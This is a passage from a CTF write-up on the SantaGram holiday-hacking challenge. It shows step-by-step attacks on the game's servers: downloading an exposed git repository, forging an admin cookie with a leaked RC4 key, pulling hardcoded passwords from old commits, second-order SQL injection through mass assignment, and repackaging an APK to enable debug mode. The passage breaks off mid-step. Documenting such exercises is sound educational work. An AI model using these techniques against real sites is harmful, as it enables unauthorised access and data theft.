7. Exploiting Each of the Services.
All of the services we can exploit are contained within the APK. This is hinted at by the zip containing the word “bugbounty”, it would appear that SantaGram has a public bug bounty program and the scope is almost everything within the application. If there ever is any question to whether something is in scope or not, you can locate Tom Hessman in game, enter an IP Address in the chat box and he will let you know if it is in scope. In order to find the URL’s, I disassembled the APK with apktool d SantaGram_v4.2.apk. I chose the disassembly route over the decompile route this time because the smali code has very little information per line, which translate to less noise. Once the app was decompiled, pulling URL’s was done by running grep -r -i northpolewonderland.com .

The servers we will need to exploit are:
- Mobile Analytics Server: analytics.northpolewonderland.com
- Dungeon Game: dungeon.northpolewonderland.com
- Debug Server: dev.northpolewonderland.com
- Banner Ad Server: ads.northpolewonderland.com
- Uncaught Exception Handeling: ex.northpolewonderland.com
The Mobile Analytics Server
The first finding in this application is that you can enumerate usernames via the login response. Attempting to login with admin returns No Such user but administrator or guest will return Invalid username\/password. The Android APK had a guest account hardcoded with the password busyreindeer78, which let me login and grab the first audio file. 
The guest is allowed to create and run reports, but I wasn’t able to do any useful exploitation beyond creating a non-informative database error. The oddest thing is that the cookie you get upon login is called AUTH and doesn’t appear follow a standard convention. I ran Burp Sequencer to generate a few hundred AUTH Cookies, and noticed there was very little entropy – there were duplicate cookies and the ones that did vary only varied by ~2 bytes.
This lead me to believe the first chunk of the cookie which did not change held an either encrypted or encoded form of my username. Additionally, due to a portion of the cookie changing in the middle and the end remaining static it does not appear the cookie was signed. So I tried the CBC Bit Flipping attack, which has a good chance of being successful if either the username or group is stored as an integer.
Unfortunately, this test wasn’t a complete success but it’s still a cool attack to try. Later tests, reveal that it is our entire username that gets encrypted and no amount of bit flips will change “guest” to “administrator”.
To perform the attack:
-
Intercept a request in burp, then right click and select send to sequencer. 
-
Go to the Sequencer Tab, Make sure the token Location is the AUTH token. Then hit Start live capture. 
-
Let this run for about a minute then hit stop. You can look at the graphs and different tests it runs… Or just save tokens to a text file. 
-
If you saved the token, it would become very apparent there is little variation between tokens when viewing the file. The command i used was
sort token.txt | uniq -c | less
Again, this test was not successful as we did not change our privileges. However, it is not a failure as we know the application handles sessions insecurely… Perhaps we’ll find another vulnerability where this will knowledge will allow us to chain vulnerabilities.
Analytics - Further Enumeration and Source Code Disclosure.
With only guest access and no web exploits its back to the drawing board. The next step was to nmap all the ports with nmap -sC -A -p- analytics.northpolewonderland.com. My initial hope was that I’d find an alternative web interface or exposed mongo database. However, we found something even better an exposed GIT Repository which contains all the source code!

- We can download the entire git repo with
wget -m https://analytics.northpolewonderland.com/.git/. - Obtain the source code by checking out the latest commit via
git reset --hardfrom inside the analytics.northpolewonderland.com folder (created by wget). - Analyze the source code, by looking at crypto.php we can see that it uses a RC4 Cipher to encrypt the cookie (indicated by MCRYPE_ARCFOUR).
1 2 3 4 5 6 7 8 9
<?php define('KEY', "\x61\x17\xa4\x95\xbf\x3d\xd7\xcd\x2e\x0d\x8b\xcb\x9f\x79\xe1\xdc"); function encrypt($data) { return mcrypt_encrypt(MCRYPT_ARCFOUR, KEY, $data, 'stream'); } function decrypt($data) { return mcrypt_decrypt(MCRYPT_ARCFOUR, KEY, $data, 'stream'); } ?>
- Find out where the encrypt function is used by running
grep -i encrypt .– Turns out it is used in login.php to create the cookie.1 2 3 4 5 6
<?php $auth = encrypt(json_encode([ 'username' => $_POST['username'], 'date' => date(DateTime::ISO8601), ])); ?>
- The source above, shows the username is hardcoded in the session. Run the encrypt function against the above code with the exception of hardcoding username to be administrator.
- Within your webbrowser replace the cookie with the administrator one just generated.
Analytics - Second Way to Get Administrator
Git Repositories contain all versions of code, we only checked out the latest commit. If we extract all the commits, we can find a version of code that had credentials hard coded. This gives the administrator password (KeepWatchingTheSkies) and an older version of the guest password (busyllama78). Here is how I did it:
- Check the commit log to see if there are any other versions of code within the repository we downloaded
git log - Create a new directory and copy our .git repository into that directory. This isn’t needed but helps us stay organized.
mkdir commits; cp -r .git commits - Loop through the git log output, pulling out all commits, and creating a directory for each one:
git log | grep commit | awk '{print $2}' | xargs mkdir - Checkout (Pull) the code for every commit and place it into the corresponding commit folder.
for i in $(ls); do git --work-tree=./$i $i reset --hard; done - Grep for interesting data.
grep -i -r 'administrator\|password\|guest'
This mistake is a lot more common than you would think. Last year a Jamie Brown (security researcher) determined 2,402 sites out of Alexa’s top 1.5million had their git repository exposed. That’s 1 in 600 websites! And I’m going to assume if he checked other version control systems (such as svn) he would of gotten a few more hits.
Want to know more?
- Here’s good writeup on git for pentesters
- Not git related, but here’s a fantastic tale on Vine exposing their source code via docker.
Analytics - The SQL Injection
This is a hard bug to track down and even harder one to ELI5. Essentially, there are two bugs that when combined allow the administrator user to run any sql query. The first issue is called “Mass Assignment” which essentially is when a user has access to a variable that the developer did not intend for. The application allows anyone to save their reports, but the report isn’t actually archived. Instead it just saves the information needed to regenerate the report which is $name, $description, and $query. The edit.php page has a form for changing the $name and $description of a report, but a manipulated request can also change the $query.

But the code in edit.php has a crucial bug that will also update $query if the user sends it. Essentially, it loops through every column in the SQL Table reports and if it has a corresponding $_GET Variable for that column it will place that in the query. The code which is responsible is below:
1
2
3
4
5
6
7
8
9
10
11
12
13
<?php
foreach($row as $name => $value) {
print "Checking for " . htmlentities($name) . "...<br>";
if(isset($_GET[$name])) {
print 'Yup!<br>';
$set[] = "`$name`='" . mysqli_real_escape_string($db, $_GET[$name]) . "'";
}
}
$query = "UPDATE `reports` " .
"SET " . join($set, ', ') . ' ' .
"WHERE `id`='" . mysqli_real_escape_string($db, $_REQUEST['id']) . "'";
print htmlentities($query);
?>
The issue is also shown in the above screenshot, but without looking at the code it isn’t immediately apparent. For every column in the database, it will print “Checking $ColumnName” and if there is a corresponding $_GET parameter it will print “Yup!”. When it gets to “Query” it doesn’t print Yup! but it does print the next thing outside of the loop which is the actual query. At a quick glance, you may think that it is asking the user to validate the query looks good.
But when looking at it programatically, you know that if the user sends the variable $query in the form of a $_GET request, then it add it to the SQL Update Query to the Report Table. The Developer doesn’t allow the user to pass $query via the web form, but if the user edits the HTTP Request to include that variable they can control an internal variable that the developer did not account for. This is the “Mass Assignment” vulnerability and is more common than you would think. It’s affected github back in 2012 and was a critical vulnerability Joomla Core in 2016, allowing people to set their group membership upon registration. This allowed unauthenticated users to gain administrator access, even if registration was turned off!
Manually send a $query variable to edit.php by just appending it to the url (ex: https://analytics.northpolewonderland.com/edit.php?id=c3813cc8-44dd-4246-9c67-149f98bd7fd7&name=test&description=test&query=select+version()), then the SQL Update command the server would generate is:
1
2
3
4
5
UPDATE `reports` SET `id`='c3813cc8-44dd-4246-9c67-149f98bd7fd7',
`name`='test',
`description`='test',
`query`='select version()'
WHERE `id`='c3813cc8-44dd-4246-9c67-149f98bd7fd7'
Remember, the “saved report” doesn’t save the actual report – it just saves the SQL Query which generated the report. So by when accessing the report for: c3813cc8-44dd-4246-9c67-149f98bd7fd7, it would execute the SQL Query we placed. This type of attack is called “Second Order SQL Injection”, as the injection doesn’t occur until a second condition is met (navigating to the report). This is one of those vulnerabilities that many automated webscanners miss, but pentesters can spot especially when doing static code analysis.
Anyways, our goal is to get the audio, so I changed the query to become select++from+audio*, and when going to the corresponding report page I see the contents of the table audio.

The final odd thing about this application is that it stores the MP3 file inside the database, I had expected it to just contain a link to where the file is on the filesystem. We can extract it by running the query select+hex(mp3)+from+audio+limit+1,1.
Then saved a copy of the page, removed all the HTML out so it is just the hex, and ran xxd -r -p audio.hex > audio.mp3 against the file.
The Debug Server (Dev)
This challenge requires us to have a working android device that is configured to go through Burp Proxy. If you do not have this, I created a basic guide here at how I got it working with regular version of Kali.
The question wanted us to find a flag on a debug server, so I went back to the APK folder which apktool created (smali code) and ran grep -r -i debug . to find all references for debug within the apk. The file /res/values/strings.xml had a very interesting line which stated that debug_data_enabled = false. I modified this value to be true and recompiled + signed the apk. The steps are below
- Build the apk with
apktool b SantaGram_4.2, it will place the apk in SantaGram_4.2/dist. - Create a directory to store your keys with:
mkdir keys - Generate your keystore
keytool -genkey -v -keystore keys/santagram.keystore -alias SantaGram -keyalg RSA -keysize 1024 -sigalg SHA1withRSA -validity 1000 - Enter a password and SSL Certificate Information when prompted.
- Sign the apk with:
jarsigner -sigalg SHA1withRSA -digestalg SHA1 -keystore keys/santagram.keystore dist/SantaGram_4.2.apk SantaGram - Push the adb to your phone with /usr/share/android-sdk/platform-tools/adb install dist/SantaGram_4.2.apk
We should now have a developer version of SantaGram on our Android Phone, which is configured to go through BurpSuite running on our Kali Box. Which means we can start poking at the traffic between the App and Server. After editing my profile, I noticed a request go off to dev.northpolewonderland.com. The response of this request told us verbose was set to false. So I appended "verbose":true to my request and it responded with the location of the audio file. Walkthrough below:
- In Burpsuite add
\.northpolewonderland\.com$to the scope.  - Go to the SiteMap tab, click filter, and check the box to show only in-scope items. 
- Start playing around with the SantaGram application, you should see the sitemap start populating.
- When a request to dev.northpolewonderland.com shows up click the request and send it over to repeater.
 - Send the request by clicking the “Go” button to see the response. Notice at the end of the JSON String, it tells us Verbose is set to false. 
- Add
"Verbose":Trueto our request and send it off to get some extra information including the audio file! 
It isn’t uncommon for developers to have hidden functions hidden within their public applications. Randy Westergren, posted an article talking about how he enabled the “ANSWER_CHEAT” mode in the mobile game Trivia Crack by disassembling the app, modifying a variable, then packaging it back up in apk form. Think exploiting mobile doesn’t return big findings? The same researcher also has several postings about mobile flaws in Verizon’s Mobile API that lead to compromising email accounts or just viewing private customer data. The funny thing? Apparently Subway and Yik-Yak takes their mobile app security very seriously (not sarcasm).
Ad Server
Browsing to ads.northpolewonderland.com, revealed a website and looking at the HTML Source showed it was running Meteor. In the game, Shinny Uptree, told us a little bit about Meteor and suggested we install the Tamper Monkey Script for it. This is a pretty straightforward process; the only caveat is you may need to download a newer version of firefox. Kali comes with the “Extended Service Release” edition, which is not compatible with Tamper Monkey. Once you have Tamper Monkey and the Meteor Miner plugin installed, browsing to the ad server will pop up a new box which aids you in dumping sensitive information.
Setup Firefox + Tamper Monkey
- Download Firefox.
- Close Firefox, and extract the file which was downloaded.
- Open the folder and doubleclick “firefox-bin”.
- Download and install tampermonkey add on.
- Click the Tamper Monkey icon, it should be to the right of where the “Home Button” is.
- Select Create New Script.
- In a new tab, go to the Meteor Miner github page.
- Click MeteorMiner.js, then select Raw. Copy all of the text and paste it into the TamperMonkey.
- Copy the Github Raw URL, and paste that into the TamperMonkey Create Script window as the update url.
- Click the save button.
Mining the Ad Server.
- Navigating to ads.northpolewonderland.com brings up the meteor miner information. The /admin/quotes page looks interesting. 
- We get an access denied when browsing to: /admin/quotes, but Meteor Miner tells us it can now see 5 records in the “HomeQuotes” collection (the last page only revealed 4).
- Dump the records by opening Firebug, going to the Console Pane and running the query:
